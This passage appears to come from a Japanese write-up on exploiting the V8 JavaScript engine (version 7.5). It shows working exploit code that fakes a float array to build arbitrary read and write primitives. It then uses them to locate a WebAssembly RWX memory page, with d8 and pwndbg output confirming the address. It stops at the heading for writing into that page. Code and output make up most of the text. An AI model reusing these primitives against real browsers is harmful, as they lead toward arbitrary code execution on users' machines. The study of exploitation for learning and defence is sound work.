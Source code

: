 ```javascript
// fake_arr[3]: length (0x10000000 as float64)
let fake_arr = [float_map, 10.10, 11.11, 1.2882297539194267e-231];
let fake_addr = addrof(fake_arr);

// array of float64
let aarw_arr = fakeobj(fake_addr - 0x30n + 0x10n);

function aar(addr) {
    fake_arr[2] = i2f(addr-0x10n);

    return f2i(aarw_arr[0]);
}

// worked only for address in v8 heap?
// not worked for RWX (SIGSEGV)
function aaw(addr, v) {
    fake_arr[2] = i2f(addr-0x10n);

    aarw_arr[0] = i2f(v);
}

```

実際に、後に用いるWasmのインスタンスによって生成されるRWX領域のアドレスをAARを用いる次のようなコードで取得してみる。ここで、`wasm_instance`内のRWX領域を指すポインタの位置は事前にデバッガで調べており、この環境では0x88であった。

```javascript
let wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
let wasm_mod = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_mod);
let f = wasm_instance.exports.main;

let rwx_addr = aar(addrof(wasm_instance) + 0x88n);
hexPrint(rwx_addr)
```

結果とgdbでのメモリマップの様子は次のようになり、確かにRWX領域のアドレスが得られていることが確認できる。

```txt
$ ./d8 --shell exploit.js
0x220b2189f000
V8 version 7.5.0 (candidate)
d8>
---------------------------------------------------------------------------------
pwndbg> vmmap 0x220b2189f000
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x220b2189f000     0x220b218a0000 rwxp     1000      0 [anon_220b2189f] +0x0
```

### RWX領域への書き込み


[^1]: gdbで`p/f 0x11c27c950589`を実行した
[^2]: 実際には浮動小数点数に変換して代入する